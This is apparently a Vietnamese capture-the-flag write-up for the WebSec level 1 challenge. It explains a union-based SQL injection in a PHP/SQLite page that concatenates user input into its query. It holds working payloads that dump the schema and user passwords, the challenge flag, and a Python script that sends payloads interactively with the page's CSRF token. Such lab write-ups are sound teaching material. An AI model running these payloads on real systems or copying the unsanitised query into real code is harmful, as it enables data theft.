

# Websec Lv1


##  I - Overview
- Là 1 challenge web khá basic với lỗ hỏng chính là UNION based SQLi 
- Hệ thống sử dụng DBs là SQLite3 cùng với nền tảng web sử dụng ngôn ngữ PHP
- RootCause : Việc không kiểm soát input đầu vào của users mà đưa thẳng vào thẳng trong truy vấn khiến cho người dùng có thể điều khiển truy vấn để lấy về dòng mà họ muốn
##  II - First Look
Khi truy cập vào Link Challenge , đập vào mắt ta sẽ là trang `/index.php`
![[WebsecL1-2.png]](Resource/WebsecL1-2.png)Đây là giao diện web có chức năng là truy vấn tên người dùng theo id 

ví dụ như trong hình với id là 1 thì nội dung trả về sẽ như sau
![[WebsecL1-3.png]](Resource/WebsecL1-3.png)

Ngoài ra ở `This Application` còn được liên kết tới 1 trang khác đó là `/source.php` nơi chứa mã nguồn của toàn bộ Web App này

Cụ thể nội dung đầy đủ như sau
```php
#Source.php
<?php

session_start ();

ini_set('display_errors', 'on');

ini_set('error_reporting', E_ALL);

include 'anti_csrf.php';

init_token ();

class LevelOne {

    public function doQuery($injection) {

        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);

        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';

        $getUsers = $pdo->query($query);

        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }
        return false;
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {

    check_and_refresh_token();

    $lo = new LevelOne ();

    $userDetails = $lo->doQuery ($_POST['user_id']);
}

?>
  
<!DOCTYPE html>
<html>
<head>
    <title>#WebSec Level One</title>
    <link rel="stylesheet" href="../static/bootstrap.min.css" />
</head>
    <body>
        <div id="main">
            <div class="container">
                <div class="row">
                    <h1>LevelOne <small> - Select the user by ID you wish to view</small></h1>
                </div>
                <div class="row">
                    <p class="lead">
                        <a href="source.php">This application</a> is used to view the username by the given user ID,
                        it will return the corresponding username from the database.<br>
                    </p>
                </div>
            </div>
            <div class="container">
                <?php if (isset ($userDetails) && !empty ($userDetails)): ?>
                    <div class="row">
                        <p class="well"><strong>Username for given ID</strong>: <?php echo $userDetails['username']; ?> </p>
                        <p class="well"><strong>Other User Details</strong>: <br />
                            <?php
                            $keys = array_keys ($userDetails);

                            $i = 0;

                            foreach ($userDetails as $user) {
                                echo $keys[$i++] . ' -> ' . $user . "<br />";
                            }
                            ?>
                        </p>
                    </div>
                <?php endif; ?>
                <div class="row">
                    <label for="user_id">Enter the user ID:</label>
                    <form name="username" method="post">
                        <div class="form-group col-md-2">
                            <input type="text" class="form-control" id="user_id" name="user_id" value="1" required>
                        </div>
                        <div class="col-md-2">
                            <input type="submit" class="form-control btn btn-default" placeholder="Submit!" name="submit">
                        </div>
                        <input type="hidden" id="token" name="token" value="<?php echo $_SESSION['token']; ?>">
                    </form>
                </div>
            </div>
        </div>
        <script type="text/javascript" src="../static/bootstrap.min.js"></script>
    </body>
</html>
```

##  III Analysis & Exploit

Đây là 1 bài whitebox khi mà ta đã có được mã nguồn ở trong tay

Phân tích đoạn code logic chính của webapp

```php
<?php

session_start ();

ini_set('display_errors', 'on');

ini_set('error_reporting', E_ALL);

include 'anti_csrf.php';

init_token ();

class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY); # tạo db dựa trên db có sẵn là database.db và chỉ có quyền đọc , không thể chỉnh sửa
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1'; # Có biến $injection -> Có mùi SQLi ở đây vì biến id mà người dùng truyền vào được truyền thẳng vào câu truy vấn mà không qua làm sạch
        $getUsers = $pdo->query($query);# Gửi truy vấn đã được lưu ở biến $query đến database 
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);# Lưu vào biến $users thông qua hàm fetchArray(SQLITE3_ASSOC) hàm này sẽ lấy 1 dòng ở trong kết quả trả về và trả theo tên cột ở đây theo truy vấn gốc là lấy từ cột username và id 
        if ($users) {
            return $users;
        } # Nếu có dữ liệu trả về thì sẽ trả về dữ liệu
        return false;
    }
}
if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    check_and_refresh_token();
    $lo = new LevelOne ();
    $userDetails = $lo->doQuery ($_POST['user_id']);
}
?>
```

Vậy luồng hoạt động sẽ là 

| Người dùng | --- Nhập id -- Submit -->| Code | --- Đưa id vào truy vấn ------- Tiến hành truy vấn ----> | trả về kết quả truy vấn |

Và bởi vì 
```php
$query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
```
Đã truyền thẳng đầu vào của người dùng mà không qua sàng lọc , làm sạch , điều này dẫn đến việc gây ra lỗ hỏng SQLi

Example : Người dùng thay vì chỉ nhập id = 1 để truy vấn lấy tên username của user có id là 1 thì người dùng sử dụng dạng truy vấn union based
```sql
1 UNION SELECT id,username FROM users WHERE id > 1-- -
```
chẳng hạn thì câu truy vấn sẽ trở thành 
```sql
SELECT id,username FROM users WHERE id = 1 UNION SELECT id,username FROM users WHERE id > 1 -- LIMIT 1;
```

Vậy là ta đã xác định được lỗ hỏng chính của challenge này

Tiếp theo ta cần xác định được thông tin mục tiêu mà ta cần lấy là gì

Để trả lời vấn đề đó ta sẽ cần hiểu 1 chút về SQLite . Trong SQLite có 1 số bảng rất đặc biệt trong đó `sqlite_schema` (hoặc tên cũ là `sqlite_master`) : Bảng này sẽ lưu thông tin mô tả (Schema) của toàn bộ DB ( chứa các lệnh hệ thống như `CREATE TABLE`/`CREATE INDEX`/`CREATE VIEW`/`CREATE TRIGGER` đã từng dùng để tạo ra db... )


Vì vậy ta sẽ khai thác thử bảng này bằng câu truy vấn sau
```sql
SELECT id,username FROM users WHERE id = 99 UNION SELECT name,sql FROM sqlite_master WHERE type='table' -- LIMIT 1;
```
Có nghĩa ngoài truy vấn ban đầu nó sẽ truy vấn gộp thêm truy vấn tên và câu truy vấn dùng để tạo ra các bảng từ đấy ta sẽ lấy được 

Ngoài ra lý do để id là 99 bởi vì vốn không tồn tại người dùng id 99
Mà trong code
```php
$users = $getUsers->fetchArray(SQLITE3_ASSOC);# Lưu vào biến $users thông qua hàm fetchArray(SQLITE3_ASSOC) hàm này sẽ lấy 1 dòng ở trong kết quả trả về và trả theo tên cột ở đây theo truy vấn gốc là lấy từ cột username và id
```
Việc truy vấn dữ liệu của người dùng id 99 sẽ trả về kết quả rỗng dẫn tới dòng đầu tiên lấy ra sẽ là kết quả của câu truy vấn phía sau của chúng ta

![[WebsecL1-4.png]](Resource/WebsecL1-4.png)

Và dự đoán của ta đã đúng , ta biết được rằng ngoài username và id còn 1 trường khác là password

Thử kiểm tra password của các id khả dụng ( Ở đây là 1,2 và 3)
```sql
SELECT id,username FROM users WHERE id = 99 UNION SELECT username,password FROM users WHERE id = 1 -- LIMIT 1;
```

`id=1`
![[WebsecL1-5.png]](Resource/WebsecL1-5.png)

`id=2`
![[WebsecL1-6.png]](Resource/WebsecL1-6.png)

`id=3`
![[WebsecL1-7.png]](Resource/WebsecL1-7.png)

```
==> Flag : WEBSEC{Simple_SQLite_Injection}
```

## IV Proof Of Concept (POC - Code)

```python
import requests

import re

from bs4 import BeautifulSoup

  

url = "https://websec.fr/level01/index.php"

session = requests.Session()

  

def getCSRFToken():

    Response = session.get(url)

    Soup = BeautifulSoup(Response.text,"html.parser")

    CSRFToken = (Soup.find("input",id="token")).get("value")

    return CSRFToken

  
  
  

def sendQuery(query):

    res = session.get("https://websec.fr/level01/index.php")

    csrf = getCSRFToken()

    data = {

        "user_id" : query,

        "submit": "Submit",

        "token": csrf

    }

    res = session.post(url,data=data)

    soup = BeautifulSoup(res.text,"html.parser")

    Result = soup.find_all("p",class_="well")

    if Result == [] :

        errors = soup.find_all("b")

        printError(errors)

        return None

    prettyPrint(Result)

  

def printError(er):

    # Lấy toàn bộ text trong <body>, dọn khoảng trắng thừa

    for error in er:

            text = error.get_text(separator=" ")          

            text = re.sub(r"\s+", " ", text).strip()  

            print(f"[SQL ERROR] {text}")

  

def prettyPrint(rs):

    for s in rs:

        text = s.get_text(separator=" ")          

        text = re.sub(r"\s+", " ", text).strip()  

        print(text)

  
  

print("Hiển thị truy vấn đã lấy được flag")

sendQuery("99 UNION SELECT name,sql FROM sqlite_master WHERE type='table'-- -")

sendQuery("99 UNION SELECT username,password FROM users WHERE id=1-- -")

  

print("Bạn muốn làm gì thử truy vấn ư , ok thôi")

while True:

    query = input("Nhập user_id (payload SQLi) — gõ 'exit' để thoát: ")

    if query.lower() == "exit":

        break

    sendQuery(query)

    print("-" * 50)
```
